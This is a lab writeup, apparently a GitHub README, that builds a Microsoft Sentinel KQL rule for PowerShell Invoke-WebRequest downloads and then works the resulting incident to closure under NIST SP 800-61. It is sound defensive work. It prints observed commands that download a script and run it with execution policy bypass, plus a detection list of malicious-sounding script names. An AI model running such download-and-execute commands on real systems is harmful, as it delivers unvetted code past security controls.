



# Detecting Suspicious PowerShell Web Requests in Microsoft Sentinel

A detection engineering and incident response lab built in Microsoft Sentinel. This project creates a scheduled analytics rule to detect PowerShell being used to download files from the internet with `Invoke-WebRequest`, a hallmark of post-exploitation activity, then works the resulting incident to closure following the NIST SP 800-61 incident response lifecycle.

> Note: hostnames and account names in this writeup have been sanitized. The script URL is a public lab artifact and the downloaded payload is a harmless EICAR test file.

| | |
|---|---|
| **SIEM** | Microsoft Sentinel |
| **Telemetry source** | Microsoft Defender for Endpoint (DeviceProcessEvents) |
| **Query Language** | KQL |
| **IR Framework** | NIST SP 800-61 |
| **Tactic** | Execution / Command and Control |
| **MITRE Techniques** | T1059.001 PowerShell, T1105 Ingress Tool Transfer |
| **Outcome** | True positive. PowerShell downloaded and ran a script. Payload was a benign EICAR test file. Device isolated, scanned clean, restored |

## Contents

- [Overview](#overview)
- [How the Detection Works](#how-the-detection-works)
- [Part 1: The Analytics Rule](#part-1-the-analytics-rule)
- [Part 2: Triggering the Alert](#part-2-triggering-the-alert)
- [Part 3: Working the Incident (NIST SP 800-61)](#part-3-working-the-incident-nist-sp-800-61)
- [MITRE ATT&CK Mapping](#mitre-attck-mapping)
- [Lessons Learned](#lessons-learned)
- [Files](#files)

## Overview

Attackers often use legitimate utilities like PowerShell to pull payloads from the internet, blending in with normal activity. A command such as `Invoke-WebRequest` can download a script from an external server, which is then executed to deploy malware, stage data, or establish a command and control channel. Detecting this behavior early is key to disrupting an attack in progress.

The goal of this lab was to build that detection on the SIEM side, let it fire on real activity, and run the full incident response process to closure.

## How the Detection Works

When processes run on a VM, the activity is forwarded to Microsoft Defender for Endpoint under the `DeviceProcessEvents` table. Those logs flow into the Log Analytics workspace behind Microsoft Sentinel. A scheduled analytics rule evaluates that data and raises an alert when PowerShell is seen downloading remote content with `Invoke-WebRequest`.

## Part 1: The Analytics Rule

The detection looks for `powershell.exe` running a command line that contains `Invoke-WebRequest`.

```kql
let TargetDevice = "WIN-TARGET-01";
DeviceProcessEvents
| where DeviceName == TargetDevice
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated
```

**Rule configuration:**

| Setting | Value |
|---------|-------|
| Name | PowerShell Suspicious Web Request |
| Status | Enabled |
| Severity | Medium |
| Run frequency | Every 4 hours |
| Lookback window | Last 24 hours |
| Incident creation | Automatic |
| Alert grouping | Single incident per 24 hours |
| Stop query after alert | Yes |

**Entity mappings:**

| Entity | Identifier | Value |
|--------|-----------|-------|
| Account | Name | AccountName |
| Host | HostName | DeviceName |
| Process | CommandLine | ProcessCommandLine |

**MITRE mapping on the rule:** T1059.001 Command and Scripting Interpreter: PowerShell, and T1105 Ingress Tool Transfer.



## Part 2: Triggering the Alert

Post-exploitation activity in the environment generated the necessary process logs: PowerShell was used to download a script from the internet and then execute it. With the rule enabled and configured to create incidents automatically, this activity tripped the detection and raised an incident.



## Part 3: Working the Incident (NIST SP 800-61)

### Preparation

Tooling and procedures were in place ahead of the investigation: Microsoft Sentinel for detection and incident management, and Microsoft Defender for Endpoint for endpoint isolation and response.

### Detection and Analysis

The incident, titled "PowerShell Suspicious Web Request," was assigned and set to Active for investigation. It triggered on a single device (`WIN-TARGET-01`) under one user account. The entity mappings showed PowerShell being used to download and then run a script from GitHub.



**Commands observed:**

```
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1' -OutFile 'C:\programdata\eicar.ps1';

powershell.exe -ExecutionPolicy Bypass -File 'C:\programdata\eicar.ps1';
```

The first command downloaded a script to `C:\ProgramData\eicar.ps1`. The second executed it with execution policy bypass enabled.

**Script analysis.** The downloaded script, `eicar.ps1`, created an EICAR test file at `C:\ProgramData\EICAR.txt` and logged the activity to `C:\ProgramData\entropygorilla.log`. The EICAR file is a standard, harmless string used to safely test that antivirus and endpoint detection tools are working. It is not real malware, but the behavior that delivered it (an unauthorized download and execution) is exactly what a real payload would use.

**User follow-up.** The user was contacted about their activity at the time of the logs. They said they had tried to install a piece of free software, saw a black screen for a few seconds, and then nothing appeared to happen. Since the user did not intentionally run PowerShell or knowingly download the script, the activity was treated as suspicious.

**Execution verification.** To confirm whether the downloaded script actually ran, the process logs were checked for execution of known script names:

```kql
let TargetHostname = "WIN-TARGET-01";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
| summarize Count = count() by AccountName, DeviceName, FileName, ProcessCommandLine
```

**Result:** Confirmed. The `eicar.ps1` script was downloaded and then executed on the device.

### Containment, Eradication, and Recovery

- Isolated the affected machine using Microsoft Defender for Endpoint.
- Ran an antimalware scan on the device while it was isolated.
- The scan came back clean with no further malicious activity, so the device was released from isolation.

### Post-Incident Activities

- The affected user was assigned additional cybersecurity awareness training.
- The organization's security awareness training package was upgraded through KnowBe4, and training frequency was increased.
- A policy was proposed to restrict PowerShell usage for non-essential users, reducing the risk of PowerShell being abused to download and execute unauthorized scripts.

### Closure

The incident was worked to closure and assessed as a true positive. The detection fired on genuine suspicious activity: PowerShell downloading and executing a script with execution policy bypass. The payload turned out to be a harmless EICAR test file with no real damage, but the behavior was real and warranted the full response. With the device scanned clean and restored, the case was closed.

## MITRE ATT&CK Mapping

| Tactic | Technique | ID | Evidence |
|--------|-----------|----|----|
| Execution | Command and Scripting Interpreter: PowerShell | T1059.001 | `powershell.exe` run with execution policy bypass to download and execute a script |
| Command and Control | Ingress Tool Transfer | T1105 | `Invoke-WebRequest` used to download a script from an external GitHub URL |

## Lessons Learned

**What this detection catches:**

- PowerShell reaching out to the internet with `Invoke-WebRequest` is a strong post-exploitation signal. A scheduled rule turns that into an automatic incident with the account, host, and command line already mapped as entities, so an analyst can start investigating immediately.

**What allowed this:**

- Unrestricted PowerShell combined with execution policy bypass let a script download and run with no friction. Restricting PowerShell for non-essential users, enabling constrained language mode, or requiring script signing would close that path.
- The likely entry point was the user installing unknown free software, which is why awareness training is part of the response.

**What would sharpen the detection:**

- Expand the rule beyond `Invoke-WebRequest` to other common download methods like `Start-BitsTransfer`, `certutil`, and `curl`, since an attacker can swap tools.
- Pair the download detection with execution monitoring so a downloaded script links straight to the process that runs it, which is the chain confirmed here.

## Files

- `README.md` - this writeup
- `analytics-rule.kql` - the detection query behind the Sentinel rule
- `execution-check.kql` - the query used to confirm the downloaded script executed
- `screenshots/` - rule creation, incident, and investigation graph

---

Part of an ongoing series of threat hunting and SOC investigations by Mohamed Yagoub.
